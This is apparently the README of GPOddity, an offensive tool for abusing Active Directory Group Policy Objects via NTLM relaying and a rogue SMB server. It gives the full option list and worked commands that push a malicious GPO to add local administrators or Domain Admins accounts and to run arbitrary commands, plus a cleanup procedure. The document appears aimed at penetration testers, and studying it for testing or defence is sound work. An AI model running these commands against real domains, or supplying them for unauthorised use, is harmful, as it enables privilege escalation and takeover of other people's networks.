 # GPOddity

The GPOddity project, aiming at automating GPO attack vectors through NTLM relaying (and more).

# Usage

```
podman build -t gpoddity .

podman run -it --name gpoddity gpoddity

                                                                                                                                                                                    
 Usage: python3 ./gpoddity.py [OPTIONS]          
                                                                                                                                                                                                
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --help          Show this message and exit.                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ General options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --domain            TEXT  The target domain [default: None] [required]                                                                                                                    │
│ *  --gpo-id            TEXT  The GPO object GUID without enclosing brackets (for instance, '1328149E-EF37-4E07-AC9E-E35920AD2F59') [default: None] [required]                                │
│ *  --username          TEXT  The username of the user having write permissions on the GPO AD object. This may be a machine account (for instance, 'SRV01$') [default: None] [required]       │
│    --password          TEXT  The password of the user having write permissions on the GPO AD object [default: None]                                                                          │
│    --hash              TEXT  The NTLM hash of the user having write permissions on the GPO AD object, with the format 'LM:NT' [default: None]                                                │
│    --dc-ip             TEXT  [Optional] The IP of the domain controller if the domain name can not be resolved. [default: None]                                                              │
│    --ldaps                   [Optional] Use LDAPS on port 636 instead of LDAP                                                                                                                │
│    --verbose                 [Optional] Enable verbose output                                                                                                                                │
│    --just-clean              [Optional] Only perform cleaning action from the values specified in the file of the --clean-file flag. May be useful to clean up in case of incomplete         │
│                              exploitation or ungraceful exit                                                                                                                                 │
│    --clean-file        TEXT  [Optional] The file from the 'cleaning/' folder containing the values to restore when using --just-clean flag. Relative path from GPOddity install folder, or   │
│                              absolute path                                                                                                                                                   │
│                              [default: None]                                                                                                                                                 │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Malicious Group Policy Template generation options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --command           TEXT             The command that should be executed through the malicious GPO [default: None]                                                                           │
│ --powershell                         [Optional] Use powershell instead of cmd for command execution                                                                                          │
│ --gpo-type          [user|computer]  [Optional] The type of GPO that we are targeting. Can either be 'user' or 'computer' [default: computer]                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Group Policy Template location spoofing options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --rogue-smbserver-ip           TEXT  The IP address or DNS name of the server that will host the spoofed malicious GPO. If using the GPOddity smb server, this should be the IP address of   │
│                                      the current host on the internal network (for instance, 192.168.58.101)                                                                                 │
│                                      [default: None]                                                                                                                                         │
│ --rogue-smbserver-share        TEXT  The name of the share that will serve the spoofed malicious GPO (for instance, 'synacktiv'). If you are running the embedded SMB server, do NOT provide │
│                                      names including 'SYSVOL' or 'NETLOGON' (protected by UNC path hardening by default)                                                                     │
│                                      [default: None]                                                                                                                                         │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ SMB server options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --machine-name        TEXT                       [Optional] The name of a valid domain machine account, that will be used to perform Netlogon authentication (for instance, SRV01$). If      │
│                                                  omitted, will use the user specified with the --username option, and assume that it is a valid machine account                              │
│                                                  [default: None]                                                                                                                             │
│ --machine-pass        TEXT                       [Optional] The password of the machine account if specified with --machine-name [default: None]                                             │
│ --machine-hash        TEXT                       [Optional] The NTLM hash of the machine account if specified with --machine-name, with the format 'LM:NT' [default: None]                   │
│ --comment             TEXT                       [Optional] Share's comment to display when asked for shares [default: None]                                                                 │
│ --interface           TEXT                       [Optional] The interface on which the GPOddity smb server should listen [default: 0.0.0.0]                                                  │
│ --port                TEXT                       [Optional] The port on which the GPOddity smb server should listen [default: 445]                                                           │
│ --smb-mode            [embedded|forwarded|none]  [Optional] 'Embedded' SMB server will host an SMB server on this machine. 'Forwarded' will forward SMB traffic to a fake Domain Controller  │
│                                                  (requires a machine account associated with a DNS record pointing to the attacker machine. Generated GPT should be uploaded on the fake     │
│                                                  DC). 'None' will not host any SMB server (generated GPT should be uploaded on a writable SMB share in the domain)                           │
│                                                  [default: embedded]                                                                                                                         │
│ --empty-gpo                                      [Optional] By default, GPOddity will clone the target GPO and add a malicious immediate task. If this flag is specified, an empty GPO will  │
│                                                  be used instead of a clone of the legitimate one (can be useful for some edge cases in which immediate tasks will not integrate well with   │
│                                                  existing GPOs)                                                                                                                              │
│ --attacker-ip         TEXT                       [Optional] The IP of the attacker machine in the internal network (required for smb-mode 'forwarded')                                       │
│ --forwarded-ip        TEXT                       [Optional] The IP of the fake DC to which SMB traffic will be forwarded (required for smb-mode 'forwarded')                                 │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands taken from the article linked above.

> Exploiting a Computer GPO to add a local administrator. SMB mode is 'embedded': GPOddity will host the GPT on its embedded SMB server.
```
$ python3 gpoddity.py --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --domain 'corp.com' --username 'GPODDITY$' \
--password '[...]' --command 'net user synacktiv_gpoddity Password123! /add && net localgroup administrators synacktiv_gpoddity /add' \
--rogue-smbserver-ip '192.168.58.101' --rogue-smbserver-share 'synacktiv'
```


> Exploiting a User GPO to add a local administrator. SMB mode is 'none': GPOddity will create the malicious GPT, and you will then have to upload it to a writable domain share
```
$ python3 gpoddity.py --gpo-id '7B36419B-B566-46FA-A7B7-58CA9030A604' --gpo-type 'user' --smb-mode 'none' --domain 'corp.com' --username 'GPODDITY$' \
--password '[...]' --command 'net user user_gpo Password123! /add /domain && net group "Domain Admins" user_gpo /ADD /DOMAIN' \
 --rogue-smbserver-ip '192.168.58.102' --rogue-smbserver-share 'synacktiv'
```

> Exploiting a User GPO to add a local administrator. SMB mode is 'forwarded': you will have to add a DNS record pointing to GPOddity's machine, associated with a machine account. You will have to provide the IP address of a fake DC whose password is synchronized with the machine account, and upload the malicious GPT to said fake DC. For more information about this mode, see my Black Alps 2024 talk (available soon).
```
$ python3 gpoddity.py --gpo-id 'B12968FB-EEEE-404A-A583-101A2E249BF9' --domain 'corp.com' --username 'lowpriv' \
--password '[...]' --command 'whoami > C:\poc_forwarded.txt' --gpo-type 'user' --rogue-smbserver-ip 'gpoddity.corp.com' \
--rogue-smbserver-share 'synacktiv' --smb-mode 'forwarded' --attacker-ip '192.168.123.16' --forwarded-ip '192.168.125.245'
```

# About cleaning

One of the advantages of using GPOddity resides in the possibility to safely exploit GPOs, without altering legitimate GPT files, thus minimizing disruption risks in production environments. However, GPOddity still has to modify some attributes of the Group Policy Container files in order to temporarily spoof the GPT location. As a result, ensuring that the production environment remains functional supposes to revert those changes after exploitation.

By default and as explained in the article, GPOddity will do it for you by reverting any alteration performed on the GPC at the end of the exploit, when the user interrupts the program with CTRL+C. As a result, in standard conditions, you do not need to do anything to ensure everything is cleaned up.

However, if for some reason you are not able to exit GPOddity gracefully through a CTRL+C (process killed, network connection lost etc.), you can launch GPOddity with the '--just-clean' flag to perform cleaning actions in an independent manner.

This feature works in the following way. Each time GPOddity is run, the initial state of the GPO will be saved in a file under the path `cleaning/[GPO ID]/[timestamp].txt`. You can then restore all the values contained in this save file through the '--just-clean' flag. For instance, assume that you want to restore all the attributes of the GPO with ID '46993522-7D77-4B59-9B77-F82082DE9D81' to their values before running GPOddity on the 14th October 2023 at 08:08:44. You may run the following command:

```
$ python3 gpoddity.py --just-clean --domain 'corp.com' --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --username 'GPODDITY$' --password '[...]' --clean-file cleaning/46993522-7D77-4B59-9B77-F82082DE9D81/2023_10_14-08_08_44.txt
```

# Video demonstration

![GPOddity](assets/demo.gif)
